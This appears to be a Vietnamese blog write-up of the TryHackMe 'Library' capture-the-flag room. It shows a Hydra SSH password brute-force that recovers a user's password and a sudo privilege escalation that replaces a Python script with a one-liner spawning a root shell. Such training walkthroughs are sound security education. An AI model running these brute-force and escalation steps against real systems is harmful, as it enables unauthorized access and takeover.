 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Library"
date: "2022-03-15"
tags: [
    "tryhackme",
    "web",
    "linux",
    "hydra",
    "brute-force",
    "python",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-15-THM-Library.png)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Library](https://tryhackme.com/room/bsidesgtlibrary)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Xem qua web với port 80 

Tôi có 1 cái tên ở đây *meliodas*. Khi scan port phía trên tôi cũng có 1 path là *robots.txt*

Ngay khi nhìn thấy rockyou thì tôi nghĩ ngay đến brute-force (thực ra thì ai cũng nghĩ đến thôi). Tôi sẽ thử brute-force với username *meliodas* 

```python
┌──(neo㉿kali)-[~/THM-Library]
└─$ hydra -l meliodas -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-70.txt ssh://10.10.192.105
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-04 04:33:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42660 login tries (l:1/p:42660), ~2667 tries per task
[DATA] attacking ssh://10.10.192.105:22/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 42534 to do in 05:33h, 14 active
[22][ssh] host: 10.10.192.105   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-04 04:35:35
```

Thử login ssh 

```python
┌──(neo㉿kali)-[~/THM-Library]
└─$ ssh meliodas@10.10.192.105                                                                            
The authenticity of host '10.10.192.105 (10.10.192.105)' can't be established.
ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.192.105' (ED25519) to the list of known hosts.
meliodas@10.10.192.105's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ 
```

## Privilege escalation

`sudo -l`

```python
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$ 
```

`cat bak.py`

```python
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$
```

Do file này sở hữu bởi *root* nên tôi không có quyền sửa file này. Tôi sẽ xóa nó đi và tạo 1 file bak.py khác chưa payload python để leo quyền.

```python
meliodas@ubuntu:~$ rm /home/meliodas/bak.py
meliodas@ubuntu:~$ echo 'import os;os.system("/bin/bash")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
root@ubuntu:~# 
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# ls /root/
root.txt
root@ubuntu:~# 
```